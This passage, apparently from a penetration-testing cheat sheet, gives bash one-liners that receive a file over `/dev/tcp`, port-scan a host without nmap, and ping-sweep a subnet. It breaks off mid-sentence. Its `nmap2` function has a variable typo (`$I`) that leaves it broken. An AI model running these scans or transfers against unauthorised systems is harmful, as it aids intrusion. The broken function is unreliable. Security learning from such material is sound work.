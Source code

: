 ```bash
# Receive that file
cat > myfile.txt < /dev/tcp/10.20.30.40/9090
```

---

#### Port Scanner without Nmap

In the rare case where you are on a server that you can't just install nmap on (which isn't so rare in information security, now that I think about it), sometimes you are forced to live off the land without making changes to the target operating system and installing binaries. Sometimes all you want to do is run a port scan. Luckily with some fancy bash footwork, this can be scripted fairly easily:

```bash
for port in $(seq 1 65535); do { echo "blah" > /dev/tcp/YOUR_TARGET_IP_HERE/$port && echo "open - $port"; } 2>/dev/null; done
```
This takes a fair bit of time as it is sequential, but it works pretty well. Useful for pivoting, attempting to learn more about a particular machine that your target system only has access to. Also, this is fairly noisy, so any site worth their salt should be able to detect this as this is a fairly obvious and rudimentary scan.

To get even more fancy, you can simply copy-paste this into your interactive bash shell and invoke this as a function:

```bash
nmap2 () {
    [[ $# -ne 1 ]] && echo "Please provide server name" && return 1
    
    for i in {1..9000} ; do
        SERVER="$1"
        PORT=$I
        (echo  > /dev/tcp/$SERVER/$PORT) >& /dev/null &&
  
        echo "Port $PORT seems to be open"
    done
}
```
Then just run it like so: `nmap2 10.20.30.40`. Note however that in the interest of speed I only scanned ports 1 to 9000. Change as needed I guess.

---

#### Host Scanner without Nmap

Similarly, the above can be modified to perform a host scan as well!

```bash
for ip in $(seq 1 255); do ping -c 1 10.20.30.$ip > /dev/null && echo "Online: 10.20.30.$ip"; done
```

I like this one because it's a clever use of the `&&` bash-ism, stating to only execute the `echo` statement if the preceeding statement is successful. However another alternative to the above, but uses the output of ping regardless of the status code of the ping command:
